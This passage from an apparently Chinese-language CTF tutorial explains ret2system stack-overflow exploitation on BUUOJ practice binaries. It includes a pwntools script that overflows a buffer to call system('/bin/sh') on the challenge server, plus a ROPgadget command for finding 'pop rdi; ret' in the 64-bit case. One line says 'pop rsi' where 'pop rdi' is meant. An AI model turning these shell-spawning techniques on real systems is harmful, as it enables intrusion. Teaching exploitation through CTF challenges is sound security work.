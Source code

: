 <img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/stack/stack17.png?x-oss-process=style/watermark" style="zoom:80%;" />

然后按 **f12** 查找字符串，找到bin/sh字符串地址：0x0804A024

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/stack/stack16.png?x-oss-process=style/watermark" style="zoom:80%;" />

找到地址后，我们如何构造它呢？

要让程序执行system函数，就要将system地址写入返回地址，这样当程序执行到返回地址时，system函数就会执行。执行时system函数会寻找**ebp+8（第一个参数的位置）**的位置来输入参数，因此我们需要将/bin/sh地址写入ebp+8位，才能成功使system("/bin/sh")执行。这里的ebp+8位中的ebp是system函数执行时的ebp，还记得我们在栈结构中了解到的，执行函数时，会先push ebp，即system所处位置就是system的ebp。

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/stack/stack19.png?x-oss-process=style/watermark" style="zoom:80%;" />

exp如下：

```python
from pwn import *
p=remote('node4.buuoj.cn',26550)
sys_addr=0x8048320
binsh_addr=0x804A024
payload='a'*140+p32(sys_addr)+p32(0x123)+p32(binsh_addr)#p32(0x123)为随意构造的虚假eip。p32表示32位地址格式
p.sendline(payload)
p.interactive()
```

成功获取flag：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/stack/stack20.png?x-oss-process=style/watermark" style="zoom:80%;" />

## 3.3 64位system

64位程序和32位不同。x64 中的前六个参数依次保存在 rdi, rsi, rdx, rcx, r8 和 r9 寄存器中，因此要想使得system的参数位bin/sh，就要控制rdi寄存器。我们可以利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。

我们想使rdi寄存器的值为bin/sh的地址，最简单的就是l利用pop rdi汇编指令，在pop rdi后，如果有ret指令，就可以回到程序原来执行的地方，这时我们就可以控制程序流程了，也就是说，我们要找到**pop rdi, ret** 的汇编片段才可以。在这里，我们使用ROPgadget工具，来寻找pop rdi,ret。ROPgadget 是一个用于查找 Return-Oriented Programming（ROP） 链的工具。（详细见附录）

例题：https://buuoj.cn/challenges#jarvisoj_level2_x64 。题目名字：**jarvisoj_level2_x64**。

这道题和上面那道的功能一样，即反汇编几乎一样，就不一步步分析了。但是由于这道题是64位，无法像上面那样构造，因此我们需要找到pop rdi,ret的汇编片段

使用如下指令:

```shell
ROPgadget --binary level2_x64 --only 'pop|ret'
```

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/stack/stack21.png?x-oss-process=style/watermark" style="zoom:80%;" />

可以看到存在pop rdi, ret指令，地址为0x4006b3。

我们先利用pop rsi, ret 将bin/sh参数地址传给rdi寄存器，然后ret返回，返回到system函数地址就可以顺利执行system('bin/sh')了。

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/stack/stack23.png?x-oss-process=style/watermark" style="zoom:80%;" />
